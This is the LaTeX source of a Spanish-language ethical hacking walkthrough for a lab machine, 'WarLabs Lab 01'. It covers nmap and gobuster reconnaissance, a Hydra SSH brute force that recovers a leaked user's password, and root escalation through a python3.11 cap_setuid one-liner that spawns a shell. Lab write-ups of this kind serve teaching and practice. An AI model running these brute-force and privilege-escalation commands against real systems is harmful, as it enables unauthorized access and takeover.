\documentclass[12pt,a4paper]{article}

\usepackage{fontspec}
\usepackage{geometry}
\usepackage{titlesec}
\usepackage{enumitem}
\usepackage{setspace}
\usepackage{xcolor}
\usepackage{listings}
\usepackage{hyperref}
\usepackage{fancyhdr}
\usepackage{graphicx}
\usepackage{float}
\usepackage{mdframed}
\usepackage{booktabs}
\usepackage{array}
\usepackage{tcolorbox}
\usepackage{tikz}

\tcbuselibrary{skins, breakable}

\geometry{
  top=2.3cm,
  bottom=2.3cm,
  left=2.5cm,
  right=2.5cm
}

\onehalfspacing

\setmainfont{Arial}
\setmonofont{Hack Nerd Font Mono}

% ── Colores ────────────────────────────────────────────────────────────────────
\definecolor{wlbg}     {HTML}{0d1117}
\definecolor{wlsurface}{HTML}{161b22}
\definecolor{wlborder} {HTML}{30363d}
\definecolor{wlgreen}  {HTML}{3fb950}
\definecolor{wlcyan}   {HTML}{79c0ff}
\definecolor{wlpurple} {HTML}{bc8cff}
\definecolor{wlyellow} {HTML}{e3b341}
\definecolor{wlred}    {HTML}{f85149}
\definecolor{wltext}   {HTML}{e6edf3}
\definecolor{wlmuted}  {HTML}{8b949e}
\definecolor{codebg}   {HTML}{161b22}
\definecolor{inlinebg} {HTML}{1c2128}

% ── Hipervínculos ──────────────────────────────────────────────────────────────
\hypersetup{
  colorlinks=true,
  urlcolor=wlcyan,
  linkcolor=wlcyan
}

% ── Encabezado y pie ──────────────────────────────────────────────────────────
\pagestyle{fancy}
\setlength{\headheight}{24pt}
\addtolength{\topmargin}{-6pt}
\fancyhf{}
\renewcommand{\headrulewidth}{0.4pt}
\renewcommand{\headrule}{\hbox to\headwidth{\color{wlborder}\leaders\hrule height \headrulewidth\hfill}}
\lhead{\color{wlmuted}\small\texttt{WarLabs — Lab 01}}
\rhead{\color{wlmuted}\small\texttt{Sn0wBaall}}
\cfoot{\color{wlmuted}\small\thepage}

\setlength{\parindent}{0pt}
\setlength{\parskip}{7pt}

% ── Títulos de sección ────────────────────────────────────────────────────────
\titleformat{\section}
  {\Large\bfseries\color{wlcyan}}
  {}{0em}
  {}
  [\vspace{-4pt}{\color{wlborder}\rule{\linewidth}{0.5pt}}]

\titleformat{\subsection}
  {\large\bfseries\color{wlpurple}}
  {}{0em}{}

\titleformat{\subsubsection}
  {\normalsize\bfseries\color{wlyellow}}
  {}{0em}{}

% ── Listas ────────────────────────────────────────────────────────────────────
\setlist[itemize]{
  leftmargin=1.8em,
  itemsep=2pt,
  label={\color{wlgreen}\textbullet}
}
\setlist[itemize,2]{
  label={\color{wlmuted}$\circ$}
}

% ── Bloques de código ─────────────────────────────────────────────────────────
\lstset{
  backgroundcolor=\color{codebg},
  basicstyle=\ttfamily\small\color{wltext},
  keywordstyle=\color{wlpurple}\bfseries,
  commentstyle=\color{wlmuted}\itshape,
  stringstyle=\color{wlgreen},
  numberstyle=\tiny\color{wlmuted},
  breaklines=true,
  columns=fullflexible,
  frame=single,
  framesep=6pt,
  rulecolor=\color{wlborder},
  xleftmargin=8pt,
  xrightmargin=4pt,
  showstringspaces=false,
  tabsize=4,
}

\lstdefinestyle{output}{
  backgroundcolor=\color{wlbg},
  basicstyle=\ttfamily\small\color{wlgreen},
  frame=single,
  rulecolor=\color{wlborder},
  xleftmargin=8pt,
  xrightmargin=4pt,
  breaklines=true,
  columns=fullflexible,
}

\lstdefinestyle{inline}{
  backgroundcolor=\color{inlinebg},
  basicstyle=\ttfamily\footnotesize\color{wlcyan},
  frame=none,
  breaklines=true,
  columns=fullflexible,
}

\lstdefinestyle{pythonstyle}{
  language=Python,
  backgroundcolor=\color{codebg},
  basicstyle=\ttfamily\small\color{wltext},
  keywordstyle=\color{wlpurple}\bfseries,
  commentstyle=\color{wlmuted}\itshape,
  stringstyle=\color{wlgreen},
  numberstyle=\tiny\color{wlmuted},
  breaklines=true,
  columns=fullflexible,
  frame=single,
  framesep=6pt,
  rulecolor=\color{wlborder},
  xleftmargin=8pt,
  xrightmargin=4pt,
  showstringspaces=false,
}

% ── Caja de nota / tip ────────────────────────────────────────────────────────
\newtcolorbox{notebox}{
  enhanced,
  colback=wlsurface,
  colframe=wlyellow,
  leftrule=3pt, toprule=0.4pt, bottomrule=0.4pt, rightrule=0.4pt,
  arc=4pt,
  fontupper=\small\color{wltext},
  left=8pt, right=8pt, top=6pt, bottom=6pt,
}

\newtcolorbox{flagbox}{
  enhanced,
  colback=wlsurface,
  colframe=wlgreen,
  leftrule=3pt, toprule=0.4pt, bottomrule=0.4pt, rightrule=0.4pt,
  arc=4pt,
  fontupper=\small\color{wltext},
  left=8pt, right=8pt, top=6pt, bottom=6pt,
}

% ── Macro para código inline ──────────────────────────────────────────────────
\newcommand{\cmd}[1]{%
  \colorbox{inlinebg}{\texttt{\small\color{wlcyan}#1}}%
}

% ── Portada ───────────────────────────────────────────────────────────────────
\begin{document}

\pagecolor{wlbg}
\color{wltext}

\begin{titlepage}
  \centering
  \vspace*{3cm}

  {\color{wlgreen}\Huge\bfseries\ttfamily WarLabs}

  \vspace{0.4cm}
  {\color{wlmuted}\large\ttfamily Plataforma de Hacking Ético}

  \vspace{2.5cm}
  {\color{wlcyan}\rule{0.6\linewidth}{0.5pt}}

  \vspace{1cm}
  {\color{wltext}\LARGE\bfseries Walkthrough — Lab 01}\\[0.4cm]
  \vspace{1cm}
  {\color{wlcyan}\rule{0.6\linewidth}{0.5pt}}

  \vspace{2cm}

  \begin{tabular}{@{}r l@{}}
    \color{wlmuted}Sistema Operativo & \color{wltext}\textbf{Linux}\\[4pt]
    \color{wlmuted}Dificultad        & \color{wlgreen}\textbf{Fácil}\\[4pt]
    \color{wlmuted}Autor             & \color{wltext}\textbf{Sn0wBaall}\\[4pt]
  \end{tabular}

  \vfill
  {\color{wlmuted}\small\ttfamily github.com/Sn0wBaall}
\end{titlepage}

% ── Tabla de contenidos ───────────────────────────────────────────────────────
\tableofcontents
\newpage

% ─────────────────────────────────────────────────────────────────────────────
\section{Información de la máquina}

\begin{tabular}{@{}>{\color{wlmuted}}l >{\color{wltext}}l@{}}
  \midrule
  Sistema Operativo & Linux (Debian Bookworm) \\
  Dificultad        & \textcolor{wlgreen}{\textbf{Fácil}} \\
  \bottomrule
\end{tabular}

\vspace{8pt}
\begin{notebox}
  \textbf{Vectores de ataque:} Enumeración web → filtración de usuario → fuerza bruta SSH → Linux capabilities (\texttt{cap\_setuid}).
\end{notebox}

% ─────────────────────────────────────────────────────────────────────────────
\section{Herramientas}

\begin{itemize}
  \item \textbf{Nmap} — Escáner de puertos y detección de servicios
  \item \textbf{Whatweb} — Fingerprinting de tecnologías web
  \item \textbf{Gobuster} — Fuzzing de directorios y archivos
  \item \textbf{Hydra} — Ataque de fuerza bruta sobre servicios de red
\end{itemize}

% ─────────────────────────────────────────────────────────────────────────────
\section{Fase de reconocimiento}

\subsection{Escaneo de puertos}

El primer paso es identificar qué puertos y servicios tiene expuestos la máquina objetivo. Realizamos un escaneo completo con Nmap:

\begin{lstlisting}[language=bash]
sudo nmap -sS -p- --open --min-rate 5000 -n -vvv -Pn -oG allPorts 192.168.1.18
\end{lstlisting}

\begin{notebox}
  \textbf{Desglose de parámetros:}
  \begin{itemize}
    \item \cmd{-sS} \textbf{(Stealth Scan)} — No completa el Three-Way Handshake. Envía \texttt{SYN}, recibe \texttt{SYN/ACK} y responde con \texttt{RST}, sin establecer conexión completa.
    \item \cmd{-p-} — Escanea los 65535 puertos TCP.
    \item \cmd{--open} — Filtra y muestra únicamente puertos abiertos.
    \item \cmd{--min-rate 5000} — Fuerza un mínimo de 5000 paquetes por segundo.
    \item \cmd{-n} — Desactiva la resolución DNS.
    \item \cmd{-vvv} — Modo verbose: muestra los puertos encontrados en tiempo real.
    \item \cmd{-Pn} — Omite el host discovery asumiendo que el host está activo.
    \item \cmd{-oG allPorts} — Guarda el resultado en formato grepeable.
  \end{itemize}
\end{notebox}

Resultado del archivo \texttt{allPorts}:

\begin{lstlisting}[style=output]
# Nmap 7.98 scan initiated Wed Mar 25 15:20:27 2026 as: nmap -sS -p- --open --min-rate 5000 -n -vvv -Pn -oG allPorts 192.168.1.18
# Ports scanned: TCP(65535;1-65535) UDP(0;) SCTP(0;) PROTOCOLS(0;)
Host: 192.168.1.18 ()   Status: Up
Host: 192.168.1.18 ()   Ports: 22/open/tcp//ssh///, 80/open/tcp//http///
# Nmap done at Wed Mar 25 15:21:02 2026 -- 1 IP address (1 host up) scanned in 34.56 seconds
\end{lstlisting}

Encontramos dos puertos abiertos: \textbf{22 (SSH)} y \textbf{80 (HTTP)}. A continuación, lanzamos un escaneo más detallado sobre ambos para detectar versiones y ejecutar scripts de reconocimiento:

\begin{lstlisting}[language=bash]
sudo nmap -sCV -p22,80 -oN portsVersion 192.168.1.18
\end{lstlisting}

\begin{notebox}
  \textbf{Desglose de parámetros:}
  \begin{itemize}
    \item \cmd{-sC} — Ejecuta los scripts por defecto de Nmap (\textit{default scripts}).
    \item \cmd{-sV} — Detecta la versión de cada servicio.
    \item \cmd{-p22,80} — Limita el escaneo a los puertos 22 y 80.
    \item \cmd{-oN portsVersion} — Guarda el resultado en formato Nmap normal.
  \end{itemize}
\end{notebox}

\begin{lstlisting}[style=output]
# Nmap 7.98 scan initiated Wed Mar 25 15:21:30 2026 as: nmap -sCV -p22,80 -oN portsVersion 192.168.1.18
Nmap scan report for 192.168.1.18 (192.168.1.18)
Host is up (0.12s latency).

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 9.2p1 Debian 2+deb12u7 (protocol 2.0)
| ssh-hostkey:
|   256 77:e8:7f:e0:41:dc:1b:81:41:eb:47:a0:4a:98:4b:f9 (ECDSA)
|_  256 79:31:5c:c0:b3:c2:c3:08:a8:00:b5:fb:9c:cb:7e:21 (ED25519)
80/tcp open  http    Apache httpd 2.4.66 ((Debian))
|_http-server-header: Apache/2.4.66 (Debian)
|_http-title: Graph Page - Modern Analytics Dashboard
MAC Address: B8:27:EB:74:F2:6C (Raspberry Pi Foundation)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
\end{lstlisting}

Análisis de los resultados:

\begin{itemize}
  \item \textbf{SSH (puerto 22)}
  \begin{itemize}
    \item Versión: \texttt{OpenSSH 9.2p1} sobre \textbf{Debian 12 (Bookworm)}
    \item Protocolo: \textbf{SSH-2.0}
    \item Claves del servidor: \textbf{ECDSA} y \textbf{ED25519}
  \end{itemize}
  \item \textbf{HTTP (puerto 80)}
  \begin{itemize}
    \item Servidor: \textbf{Apache 2.4.66} sobre Debian
    \item Título de la aplicación: \textbf{Graph Page — Modern Analytics Dashboard}
  \end{itemize}
  \item \textbf{Hardware}
  \begin{itemize}
    \item La dirección MAC identifica una \textbf{Raspberry Pi Foundation}
  \end{itemize}
\end{itemize}

\subsection{Fingerprinting web con Whatweb}

Antes de abrir el navegador, obtenemos información adicional sobre las tecnologías de la web con \textbf{Whatweb}:

\begin{lstlisting}[language=bash]
whatweb http://192.168.1.18
\end{lstlisting}

\begin{lstlisting}[style=output]
http://192.168.1.18 [200 OK] Apache[2.4.66], Country[RESERVED][ZZ],
Email[sn0wp@graphpage.com,support@graphpage.com], HTML5,
HTTPServer[Debian Linux][Apache/2.4.66 (Debian)],
IP[192.168.1.18], Script, Title[Graph Page - Modern Analytics Dashboard]
\end{lstlisting}

El resultado más relevante son los dos correos electrónicos filtrados:

\begin{itemize}
  \item \texttt{sn0wp@graphpage.com}
  \item \texttt{support@graphpage.com}
\end{itemize}

Esto sugiere posibles nombres de usuario del sistema. No se detectan frameworks ni CMS conocidos.

\subsection{Revisión manual de la web}

Accedemos a la aplicación desde el navegador para identificar posibles puntos de entrada:

\begin{figure}[H]
  \centering
  
\includegraphics[width=\textwidth]{Images/Image1.png}
\end{figure}

La página no presenta funcionalidades interactivas obvias. Procedemos a realizar fuzzing de directorios.

\subsection{Fuzzing de directorios con Gobuster}

\begin{lstlisting}[language=bash]
gobuster dir -u http://192.168.1.18 \
  -w /usr/share/seclists/Discovery/Web-Content/DirBuster-2007_directory-list-2.3-medium.txt \
  -t 100 -x html -o fuzzing.txt
\end{lstlisting}

\begin{notebox}
  \textbf{Desglose de parámetros:}
  \begin{itemize}
    \item \cmd{dir} — Modo de descubrimiento de directorios.
    \item \cmd{-u} — URL objetivo.
    \item \cmd{-w} — Wordlist utilizada para el fuzzing.
    \item \cmd{-x html} — Añade la extensión \texttt{.html} a cada entrada de la wordlist.
    \item \cmd{-t 100} — Número de hilos concurrentes.
    \item \cmd{-o fuzzing.txt} — Guarda los resultados en un archivo.
  \end{itemize}
\end{notebox}

\begin{lstlisting}[style=output]
index.html           (Status: 200) [Size: 27841]
images               (Status: 301) [Size: 353] [--> http://192.168.1.18/images/]
secret.html          (Status: 200) [Size: 119]
\end{lstlisting}

El archivo \textbf{secret.html} llama la atención. Al acceder desde el navegador:

\begin{figure}[H]
  \centering
  
\includegraphics[width=\textwidth]{Images/Image2.png}
\end{figure}

Obtenemos el nombre de usuario \textbf{cody}. Combinando este dato con el puerto \textbf{22 (SSH)} abierto, tenemos todo lo necesario para intentar un ataque de fuerza bruta.

% ─────────────────────────────────────────────────────────────────────────────
\section{Fase de explotación}

\subsection{Fuerza bruta SSH con Hydra}

Con el usuario \texttt{cody} y el puerto SSH abierto, lanzamos un ataque de fuerza bruta usando el diccionario \texttt{rockyou.txt}:

\begin{lstlisting}[language=bash]
hydra -l cody -P /usr/share/dict/rockyou.txt ssh://192.168.1.18 -t 64
\end{lstlisting}

\begin{notebox}
  \textbf{Desglose de parámetros:}
  \begin{itemize}
    \item \cmd{-l cody} — Especifica el usuario objetivo.
    \item \cmd{-P rockyou.txt} — Wordlist de contraseñas.
    \item \cmd{ssh://192.168.1.18} — Protocolo y host objetivo.
    \item \cmd{-t 64} — Número de tareas paralelas. SSH puede limitar conexiones simultáneas; considera reducirlo a \texttt{-t 4} si encuentras problemas.
  \end{itemize}
\end{notebox}

\begin{lstlisting}[style=output]
[DATA] max 64 tasks per 1 server, overall 64 tasks, 14344398 login tries
[DATA] attacking ssh://192.168.1.18:22/
[22][ssh] host: 192.168.1.18   login: cody   password: asdfghjkl
1 of 1 target successfully completed, 1 valid password found
\end{lstlisting}

\begin{flagbox}
  \textbf{Credenciales obtenidas:}\\[4pt]
  \texttt{Usuario:\ \ \ cody}\\
  \texttt{Contraseña: asdfghjkl}
\end{flagbox}

\subsection{Acceso al sistema}

Con las credenciales obtenidas, nos conectamos por SSH:

\begin{lstlisting}[language=bash]
ssh cody@192.168.1.18
\end{lstlisting}

\begin{lstlisting}[style=output]
cody@192.168.1.18's password:
Linux f7fe9a1dcbd2 6.1.0-18-amd64 #1 SMP Debian 6.1.76-1 (2024-02-01)

cody@f7fe9a1dcbd2:~$
\end{lstlisting}

% ─────────────────────────────────────────────────────────────────────────────
\section{Escalada de privilegios}

Ya dentro del sistema como el usuario \texttt{cody}, buscamos vías para escalar a \texttt{root}.

\subsection{Búsqueda de binarios SUID}

El primer paso habitual es buscar binarios con el bit \textbf{SUID} activado:

\begin{lstlisting}[language=bash]
find / -perm -4000 2>/dev/null
\end{lstlisting}

\begin{lstlisting}[style=output]
/usr/lib/openssh/ssh-keysign
/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/usr/bin/newgrp
/usr/bin/passwd
/usr/bin/chfn
/usr/bin/umount
/usr/bin/su
/usr/bin/chsh
/usr/bin/mount
/usr/bin/gpasswd
/usr/bin/sudo
\end{lstlisting}

Los binarios encontrados son estándar en Debian y no presentan vectores evidentes de explotación. Pasamos al siguiente vector.

\subsection{Enumeración de capabilities}

Las \textbf{Linux capabilities} son una alternativa a SUID que otorgan privilegios específicos a binarios sin necesidad de darles acceso completo de \texttt{root}. Las enumeramos con:

\begin{lstlisting}[language=bash]
getcap -r / 2>/dev/null
\end{lstlisting}

\begin{lstlisting}[style=output]
/usr/bin/python3.11 cap_setuid=ep
\end{lstlisting}

\begin{notebox}
  \textbf{¿Qué significa \texttt{cap\_setuid=ep}?}\\[4pt]
  La capability \texttt{cap\_setuid} permite a un proceso cambiar su UID de forma arbitraria. Con el flag \texttt{ep} (\textit{effective} + \textit{permitted}), este privilegio está activo desde el momento en que se ejecuta el binario, sin necesidad de código adicional. Esto significa que \texttt{python3.11} puede llamar a \texttt{os.setuid(0)} para convertirse en \texttt{root}.
\end{notebox}

\subsection{Explotación de la capability}

Aprovechamos la capability de Python para cambiar nuestro UID a 0 (\texttt{root}) y ejecutar una shell:

\begin{lstlisting}[style=pythonstyle]
python3.11 -c "import os; os.setuid(0); os.system('/bin/bash')"
\end{lstlisting}

O de forma interactiva:

\begin{lstlisting}[style=output]
cody@f7fe9a1dcbd2:~$ python3.11
>>> import os
>>> os.setuid(0)
>>> os.system('/bin/bash')
root@f7fe9a1dcbd2:~# whoami
root
root@f7fe9a1dcbd2:~# id
uid=0(root) gid=1000(cody) groups=1000(cody)
root@f7fe9a1dcbd2:~#
\end{lstlisting}

\begin{flagbox}
  \textbf{Máquina comprometida.} Se ha obtenido acceso como \texttt{root} (uid=0).
\end{flagbox}

\section{Resumen del ataque}

\begin{enumerate}
  \item \textbf{Reconocimiento} — Escaneo con Nmap: puertos 22 y 80 abiertos.
  \item \textbf{Enumeración web} — Whatweb y Gobuster revelan \texttt{secret.html} con el usuario \texttt{cody}.
  \item \textbf{Explotación} — Fuerza bruta con Hydra sobre SSH obtiene la contraseña \texttt{asdfghjkl}.
  \item \textbf{Escalada} — La capability \texttt{cap\_setuid} en \texttt{python3.11} permite ejecutar una shell como \texttt{root}.
\end{enumerate}

\end{document}
